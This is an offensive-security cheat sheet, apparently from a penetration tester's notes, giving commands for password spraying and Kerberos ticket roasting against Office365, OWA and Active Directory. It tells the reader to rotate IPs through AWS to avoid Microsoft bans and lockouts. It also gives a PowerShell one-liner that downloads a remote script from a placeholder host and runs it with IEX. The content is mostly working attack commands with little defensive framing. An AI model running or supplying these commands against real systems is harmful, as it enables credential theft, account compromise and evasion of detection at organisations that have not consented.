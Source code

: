 # Spraying & Roasting

### Azure / Office365

Search for emails, based on tech stack, default usernames, OSINT information etc., then enumerate which ones are valid with [https://github.com/LMGsec/o365creeper](https://github.com/LMGsec/o365creeper) . This does not cause logs to be written or lockouts to be triggered, so it is pretty safe to do. 

Use [https://github.com/dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray) to Spray vs Office365. To not get banned by microsoft, using [https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox) as described on the MSOLSpray repo is advised, which will use an AWS API Gateway to rotate the IPs you are accessing from. An incrementing time based lockout occurs after 10 attempts per account, so be careful.

Ideally this will result in at least 1 valid user account.

### Kerbrute

```text
kerbrute passwordspray -d domain.local --dc dcip users.txt <password to spray>
```

### OWA

Using [https://github.com/byt3bl33d3r/SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit):

```text
atomizer.py owa mail.domain.local <password to spray> -emails.txt
```

### Kerberoast

Make sure your time + timezone and the targets time are in sync, kerberos is very time sensitive. You can view the time on windows with `tzdate /g` or on Linux `rdate -n <targetip>`

#### Covenant

```text
Rubeus kerberoast /format:hashcat
```

#### Impacket

```text
GetUserSPNs.py <domain>/<username>:<password> -outputfile <outfile>
```

#### Native

```bash
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### PowerSploit

```bash
powershell.exe -Command 'IEX (New-Object Net.Webclient).DownloadString("http://<ip>:<port>/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat Hashcat
```

#### ASREPRoast

Without credentials for a list of users:

```text
GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -outputfile <outfile> -dc-ip <>
```

With credentials for all users:

```text
GetNPUsers.py <domain>/<username>:<password> -request -format hashcat -outputfile <outfile>
```

